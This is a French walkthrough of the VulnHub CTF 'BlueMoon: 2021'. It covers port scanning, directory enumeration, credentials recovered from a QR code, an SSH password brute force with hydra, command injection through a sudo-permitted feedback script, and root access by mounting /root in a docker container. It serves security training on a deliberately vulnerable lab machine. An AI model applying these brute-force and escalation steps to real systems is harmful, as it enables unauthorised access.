 # Solution du CTF BlueMoon: 2021 de VulnHub

[BlueMoon: 2021](https://www.vulnhub.com/entry/bluemoon-2021,679/) est un CTF proposé sur VulnHub et créé par un certain *Kirthik*. La difficulté est notée comme facile sans plus de description. Il faut juste obtenir les droits root.

Un scan des ports de la VM (`sudo nmap -T5 -p- -sCV 192.168.56.40`) révèle trois services assez classiques. On note la présence d'un FTP qui ne semble pas ouvert aux connexions anonymes et effectivement un essai manuel retourne une erreur `530 Permission denied.`

Je suis donc passé à la phase d'énumération. Sur le site web on trouve une page de bienvenue avec deux images (une dans la page, l'autre est le favicon), rien de plus.

A l'aide de feroxbuster et des wordlists [raft](https://github.com/Averroes/raft/tree/master/data/wordlists) que j'utilise habituellement (efficaces et suffisemment courtes) j'ai tenté de trouver des fichiers et dossiers cachés en vain.

J'ai ensuite tenté de bruteforcer un éventuel compte FTP à l'aide d'hydra, toujours sans résultats.

J'ai analysé les images du site avec un éditeur hexadécimal à l'affut d'un quelconque indice.

Finalement j'ai refait une énumération web avec la wordlist plus grosse de [DirBuster](https://github.com/igorhvr/zaproxy/blob/master/src/dirbuster/directory-list-2.3-big.txt) et je suis tombé sur le fichier *hidden_text* contenant le message suivant :

> Maintanance!
> Sorry For Delay. We Will Recover Soon.
> 
> Thank You ...

La dernière ligne est un lien HTML pointant vers une image de QR code.

J'ai eu recours au site https://qrscanneronline.com/ qui a décodé l'image vers le script suivant:

```bash
#!/bin/bash

HOST=ip
USER=userftp
PASSWORD=ftpp@ssword

ftp -inv $HOST user $USER $PASSWORD
bye
EOF
```

Quand on se connecte au FTP on arrive immédiatement dans le dossier /home/userftp/files qui contient les fichiers suivants :

```
-rw-r--r--    1 0        0             147 Mar 08  2021 information.txt
-rw-r--r--    1 0        0             363 Mar 08  2021 p_lists.txt
```

Je remarque toutefois qu'il est possible de remonter l'arborescence pour aller jusqu'à la racine. A noter qu'il n'est pas possible de déposer une clé SSH dans le dossier de *userftp* ou de mettre un script php sous */var/www*.

On peut en revanche aller chercher le premier flag de l'utilisateur robin car le fichier est world readable mais on verra plus tard.

Le premier fichier contient le texte suivant :

> Hello robin ...!  
>       
>    I'm Already Told You About Your Password Weekness. I will give a Password list. you May Choose Anyone of The Password.

Le second est une liste de 32 mots de passe où des lettres ont été remplacées par des chiffres (aka leetspeak).

Une tentative de bruteforce sur le FTP échoue mais ça passe avec le SSH :

```shellsession
$ ./hydra -l robin -P /tmp/p_lists.txt ssh://192.168.56.40
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:1/p:32), ~2 tries per task
[DATA] attacking ssh://192.168.56.40:22/
[22][ssh] host: 192.168.56.40   login: robin   password: k4rv3ndh4nh4ck3r
1 of 1 target successfully completed, 1 valid password found
```

On peut alors obtenir le flag `Fl4g{u5er1r34ch3d5ucc355fully}`

Premier réflexe une fois connecté, voir si l'utilisateur peut exécuter une commande via sudo :

```shellsession
robin@BlueMoon:~$ sudo -l
Matching Defaults entries for robin on bluemoon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User robin may run the following commands on bluemoon:
    (jerry) NOPASSWD: /home/robin/project/feedback.sh
```

Le script en question n'est pas modifiable :

```
-r-xr--r-x 1 robin robin 235 Mar  8  2021 /home/robin/project/feedback.sh
```

Toutefois vu qu'on est le propriétaire on doit pouvoir changer les permissions.

On aura cependant pas à modifier le fichier puisque le script prend un nom de commande en entrée puis l'exécute :

```bash
#!/bin/bash

clear
echo -e "Script For FeedBack\n"

read -p "Enter Your Name : " name
echo ""
read -p "Enter You FeedBack About This Target Machine : " feedback
echo ""
$feedback 2>/dev/null

echo -e "\nThanks For Your FeedBack...!\n"
```

Exemple à l'exécution :

```
Script For FeedBack

Enter Your Name : toto

Enter You FeedBack About This Target Machine : id

uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)

Thanks For Your FeedBack...!
```

On saisissant `bash` comme feedback on obtient un shell peu agréable car l'output est envoyé sur /dev/null mais c'est suffisant pour déposer notre clé SSH dans le *.ssh/authorized_keys* et obtenir ensuite un vrai shell.

On a alors accès au second flag : *Fl4g{Y0ur34ch3du53r25uc355ful1y}*

On ne peux pas utiliser sudo car on ne dispose pas du mot de passe de *jerry* mais je note que l'utilisateur fait partie du groupe docker et qu'une image est présente sur le système :

```shellsession
jerry@BlueMoon:~$ id
uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)
jerry@BlueMoon:~$ docker images -a
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              28f6e2705743        20 months ago       5.61MB
```

Il suffit alors de lancer cette image en montant le répertoire de root à un emplacement spécifique dans le container. On aura alors accès à son contenu :

```shellsession
jerry@BlueMoon:~$ docker run -it -v /root:/real_root alpine
/ # cd real_root
/real_root # ls
root.txt
/real_root # cat root.txt

==> Congratulations <==

You Reached Root...!

Root-Flag 

     Fl4g{r00t-H4ckTh3P14n3t0nc34g41n}

Created By 

        Kirthik - Karvendhan


instagram = ____kirthik____



!......Bye See You Again......!
```
